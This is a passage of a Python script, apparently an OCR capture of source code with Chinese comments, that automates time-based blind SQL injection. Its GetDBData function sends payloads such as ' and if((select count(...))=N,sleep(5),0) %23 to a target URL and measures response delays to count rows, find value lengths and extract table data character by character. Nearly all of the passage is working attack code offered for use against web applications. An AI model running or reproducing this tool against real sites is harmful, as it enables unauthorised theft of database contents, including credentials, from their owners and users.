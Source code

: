 ```python
					column += chr(c)
					print(column)
					break
		# 把获取到的名加入到DBColumns
		DBColumns.append(column)
		#清空column，用来继续获取下一个字段名
		column = ""


# 获取表数据函数
def GetDBData(url, dbtable, dbcolumn):
	global DBData
	# 先获取字段数据数量
	DBDataCount = 0
	print("[-]开始获取{0}表{1}字段的数据数量".format(dbtable, dbcolumn))
	for DBDataCount in range(99):
		payload = "' and if((select count({0}) from {1})={2},sleep(5),0) %23"
		targetUrl = url + payload
		timeStart = time.time()
		res = conn.get(targetUrl.format(dbcolumn, dbtable, DBDataCount))
		timeEnd = time.time()
		if timeEnd - timeStart >= 5:
			print("[-]{0}表{1}字段的数据数量为:{2}".format(dbtable, dbcolumn, DBDataCount))
			break
	for a in range(0, DBDataCount):
		print("[-]正在获取{0}的第{1}个数据".format(dbcolumn, a+1))
		#先获取这个数据的长度
		dataLen = 0
		for dataLen in range(99):
			payload = "'and  if((select length({0}) from {1} limit {2},1)={3},sleep(5),0) %23"
			targetUrl = url + payload
			timeStart = time.time()
			res = conn.get(targetUrl.format(dbcolumn, dbtable, a, dataLen))
			timeEnd = time.time()
			if timeEnd - timeStart >= 5:
				print("[-]第{0}个数据长度为:{1}".format(a+1, dataLen))
				break
		#临时存放数据内容变量
		data = ""
		#开始获取数据的具体内容
		#b表示当前数据内容猜解的位置
		for b in range(1, dataLen+1):
			for c in range(33, 128):
				payload = "' and  if(ascii(substr((select {0} from {1} limit {2},1),{3},1))={4},sleep(5),0) %23"
				targetUrl = url + payload
				timeStart = time.time()
				res = conn.get(targetUrl.format(dbcolumn, dbtable, a, b, c))
				timeEnd = time.time()
				if timeEnd - timeStart >= 5:
					data += chr(c)
					print(data)
					break
		#放到以字段名为键，值为列表的字典中存放
		DBData.setdefault(dbcolumn,[]).append(data)
		print(DBData)
		#把data清空来，继续获取下一个数据
		data = ""


if __name__ == '__main__':
	parser = optparse.OptionParser('usage: python %prog -u url \n\n'
```